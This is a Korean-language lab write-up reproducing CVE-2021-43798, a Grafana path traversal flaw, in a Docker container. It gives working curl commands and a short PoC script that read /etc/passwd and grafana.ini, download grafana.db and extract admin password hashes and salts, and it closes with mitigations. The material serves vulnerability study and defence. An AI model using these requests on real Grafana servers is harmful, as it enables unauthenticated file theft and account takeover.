





# CVE-2021-43798

# 취약점 요약:

Grafana는 mysql, prometheus 등 여러 데이터 소스 플러그인을 기본 내장하고, 이 플러그인의 정적 자산은 /public/plugins/<plug-id>/ 경로로 서비스 된다.
문제는 <plug-id> 뒤에 붙는 경로를 검증 없이 Godml filepath.Join()에 그대로 전달해 ../ 시퀀스를 그대로 처리하므로 공격자는 이를 반복 삽입해 플러그인 디렉토리를 벗어나 시스템의 임의 파일을 읽을 수 있다.
인증 불필요 및 원격 HTTP GET 요청 한번만으로 공격이 성립 가능하다 (CVSS 3.1:7.5, AV:N/AC:L/PR:N/UI:N/C:H)

## References

1. https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p

2. https://nvd.nist.gov/vuln/detail/CVE-2021-43798

# 환경 구성 및 실행

## docker-compose.yml

```yaml
services:
  grafana:
    image: grafana/grafana:8.3.0
    container_name: cve-2021-43798-grafana
    ports:
      - "3000:3000"
```

## bash

```bash
    git clone <본인 fork 주소>
    cd kr-vulhub/Grafana/CVE-2021-43798
    docker compose up -d
    docker ps
```



# 취약 조건

1. Grafana 버전이 8.0.0-beta1 ~ 8.3.0 범위 일 것
2. 별도 설정 변경 없이 기본 설치 상태 그대로 발현
3. misconfiguration이 아닌 pkg/api/plugins.go 의 경로 처리 로직의 코드 결함 (2021.4 리팩터링 과정에서 경로 정규화 검증 누락)

# 재현 절차

1. /etc/passwd 읽기

```bash
    curl --path-as-is -s "http://localhost:3000/public/plugins/mysql/../../../../../../../../etc/passwd"
```




2. Grafana 설정 파일 읽기

```bash
    curl --path-as-is -s "http://localhost:3000/public/plugins/mysql/../../../../../../../../etc/grafana/grafana.ini"
```

 


3. SQLite DB 파일 탈취 및 관리자 계정 해쉬 확보

```bash
    curl --path-as-is -s "http://localhost:3000/public/plugins/mysql/../../../../../../../../var/lib/grafana/grafana.db" -o grafana.db
    file grafana.db   # SQLite 3.x database 확인
    sqlite3 grafana.db "SELECT login, email, password, salt FROM user;"
```

 

# POC 코드

macOS(Apple Silicon) 구현 외에도 별도로 Ubuntu ARM64 VM에 clone하여 동일하게 재실행 및 동일한 결과 확인

```bash
#!/bin/bash
# poc.sh - CVE-2021-43798 Grafana Path Traversal PoC
TARGET="http://localhost:3000"
FILE="${1:-/etc/passwd}"
curl --path-as-is -s "${TARGET}/public/plugins/mysql/../../../../../../../..${FILE}"
```

```bash

    chmod +x poc.sh
    ./poc.sh /etc/passwd
```



# 실행 결과

/etc/passwd: 전체 사용자 목록 노출

/etc/grafana/grafana.ini: 설정 파일 노출

/var/lib/grafana/grafana.db: DB 탈취 및 admin 해쉬, salt 노출 -> 관리자 계정 탈취 가능성 존재

# 대응 방안

1. Grafnana 8.3.1 이상으로 업그레이드
2. Grafana 인스턴스를 인터넷에 직접 노출하지 않고 VPN/사내망으로 제한
3. 노출 이력이 있는 인스턴스는 관리자 비밀번호,API 키 즉시 재발급
